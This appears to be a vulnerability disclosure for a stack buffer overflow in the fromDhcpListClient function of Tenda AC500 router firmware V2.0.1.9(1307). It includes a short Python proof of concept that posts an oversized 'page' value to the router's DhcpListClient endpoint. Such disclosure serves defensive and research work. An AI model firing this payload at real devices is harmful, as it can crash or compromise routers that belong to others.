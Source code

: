 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail--2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. The `v4` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v4` can trigger this security vulnerability.

![image-20240320012345206](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012345206.png)

![image-20240320012325044](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012325044.png)

![image-20240320012335792](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012335792.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102128135](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102128135.png)
